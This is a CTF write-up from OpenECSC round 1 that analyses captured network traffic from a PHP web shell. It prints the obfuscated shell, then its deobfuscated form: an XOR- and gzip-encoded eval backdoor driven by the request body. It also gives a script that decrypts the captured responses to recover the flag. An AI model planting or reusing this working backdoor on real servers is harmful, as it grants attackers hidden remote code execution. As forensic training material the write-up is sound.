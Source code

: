 ```yaml
---
layout: post
title: OpenECSC - Shellcode
date: 2022-03-21 15:51 +0200
author: Danique
tags: ctf openecsc pwn
categories: [CTF, Binary Exploitation]
---
```

Medium challenge in the OpenECSC online environment, round 1, on HackingLab. Solved on 21-3-2022

## Description: 
You have to investigate recent attack on your web server.
Since attackers were very skilled, they used specially designed PHP shell to access the server.
Your friends from Incident Response Department managed to get network capture file with malicious traffic containing the secret flag. 

Goal: Find the secret flag in the pcap

## Solution
Looking through the shellcode we can see that it contains some interesting strings which are later used and decoded:

```
$W='@e5@va5@l(@gzuncompre5@ss(5@@x(@base65@4_d5@ecode(5@$m[15@]),$5@k)));5@$o=@5@ob_5@get_contents();';

$E='$k5@="465@96bd5@9a";$5@kh="8ecf79155df0";5@$kf5@="5fb5@97fdc5@8317";$p=5@5@"BL450m5@5@L15@WeCi5@9eMA";';
 
$T='0;5@($j<5@$5@c&&$i<$l);$5@5@j++,$i5@++){$o.=$t{$i}5@5@^$k{$j};}5@}ret5@urn $5@o;}i5@f (@preg_ma5@';
$D=str_replace('bQ','','cbQreatbQe_bQfubQncbQtibQon');

$h='function x(5@$t,$5@k){$c=strle5@n($k);$l=st5@rlen(5@$t);$5@o="";fo5@r(5@$i=0;$5@i<$l;)5@{for($j=';

$l='tch(5@"/$k5@h(.+)$5@k5@f/"5@,@file_get5@_contents("php://i5@5@nput5@"),5@$m)==15@)5@ {@ob_start();';

$X='@ob_e5@nd5@_cle5@an()5@;$r=@base65@4_encode(5@@x(@gzco5@mpress(5@$5@o),5@$k));prin5@t("$p$kh5@$r$kf");}';

$G=str_replace('5@','',$E.$h.$T.$l.$W.$X);
$i=$D('',$G);
$i();
```
There are some str_replaces so we try to use the php interactive shell ` php -a ` to run this and to find out what the values of `$G` and `$I` are.

$G:
```
$k="4696bd9a";$kh="8ecf79155df0";$kf="5fb97fdc8317";$p="BL450mL1WeCi9eMA";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {@ob_start();@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));$o=@ob_get_contents();@ob_end_clean();$r=@base64_encode(@x(@gzcompress($o),$k));print("$p$kh$r$kf");}
```

$i:
```
$D('',$G); = create_function('', $G);
```
create_function returns the unique function name of the function just created, so when we call ```$i();```, we execute the code specified in $G.

What is the code in $G?
```
$k="4696bd9a";
$kh="8ecf79155df0";
$kf="5fb97fdc8317";
$p="BL450mL1WeCi9eMA";
function x($t,$k){
	$c=strlen($k);
	$l=strlen($t);
	$o="";
	for($i=0;$i<$l;){
		for($j=0;($j<$c&&$i<$l);$j++,$i++){
			$o.=$t{$i}^$k{$j};
		}
	}
	return $o;
}
	
if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {
	@ob_start();
	@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));		
	$o=@ob_get_contents();
	@ob_end_clean();
	$r=@base64_encode(@x(@gzcompress($o),$k));
	print("$p$kh$r$kf");
}

```
php://input is a read-only stream that allows us to read raw data from the request body. It returns all the raw data after the HTTP headers of the request, regardless of the content type. 

### Finding PCAP packets
We see that the output of the shell code is in the shape of \\$p\\$kh\\$r\\$kf, where \\$r is the only unkown. So we can search in the .pcap file if we find packets which contain the string \\$p\\$kh. 
Which gives us 12 packets:

All:
```
BL450mL1WeCi9eMA8ecf79155df0TKoKB9FUjWE0NRo3bg==5fb97fdc8317\n

BL450mL1WeCi9eMA8ecf79155df0TKoKAlRWD4E2NjrAY2A=5fb97fdc8317\n

BL450mL1WeCi9eMA8ecf79155df0TKrqGSlI604bGe75Sq30gDY2Hx9mnw==5fb97fdc8317\n

BL450mL1WeCi9eMA8ecf79155df0TKq8Yqv2olEki8IdHiiTjSYAZ0OuQa4tOqU2fmvA+LW0ch3GkJPQZAQfDa/wxEMYyeLToIb5UoRpEAkK6ObGOF1zn/QHxazIqTP9MCTLsU9MJznE9uBM9B98gnaJOVcApAk3PO1kmXUyfHutCXBdEnTb3VfdK07zYAepPDZzvMs5BNTTQ/WVcftyxbHQMqG9dViPJC
 
BL450mL1WeCi9eMA8ecf79155df0TKoKBVVUCmc0NSc3ZQ==5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoKAlBSDIM2NjrJY2w=5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKpM+aNpulE4M+lNxJwypb51GRIhED5L7rStAErWc6dbZzazYbauLtvti1J7diPK8oTvlNWkm4UYiThRIONyH7c74XGJJEK6qGwu7+Es0NPelI62lZzynoy9VL0ZfidFYfgTWmCT/pzHXYVj+ICgL9vOWc2BZ1DfBhvqlFyAiyZ25fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKqKBlJWiWE0NTI3YQ==5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoKAlNQDYU2NjrFY2c=5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoy/yoxcap9em7+TtJrKX8EDYcqKo1VfgeIBlNUDikGAwgHKVYPUwJ4dHtRUA6ANjYH0m795fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKoKAlFWC2M0NMc2nA==5fb97fdc8317\n
 
BL450mL1WeCi9eMA8ecf79155df0TKq8Yqv2olEki8IdHiiTjSYAZ0OuQa4tOqU2fmvA+LW0ch3GkJPQZAQfDa/wxEMYyeLToIb5UoRpEAkK6ObGOF1zn/QHxazIqTP9MCTLsU9MJznE9uBM9B98gnaJOVcApAk3PO1kmXUyfHutCXBdEnTb3VfdK07zYAepPDZzvMs5BNTTQ/WVcftyxbHQMqG9dViPJC
``` 
Now we can write a piece of code that reverses the operations in the php shell code: 
We first need to only get the \\$r piece of the message, then base64_decode it, unxor it (which the function x can do, as it is invertible) and then guncompress. Which then gives us the decrypted message. Message 11 gives us the flag:

### Decryption

We decrypt all the packets with the following script. All the 12 packet texts are in the textarray array, we then use the x function from the code and the following decrypt php code to decrypt: 
```
foreach($textarray as $text) {
		# Filter away the text that we do not need.
		$text2 = str_replace([$p,$kf,$kh] , "", $text);
		
		# Next, decode the text with base64:
		$decodedtext = @base64_decode($text2);
		#print $decodedtext;
		
		# UNXOR:
		$o = @x($decodedtext, $k);
		#print $o;
		
		#Gunzip:
		$oo = @gzuncompress($o);
		print $oo . "\n";
	}
```

Where we can find the flag text in message 11: 
The flag is: fb148ca92d484070b5446b3233eef174
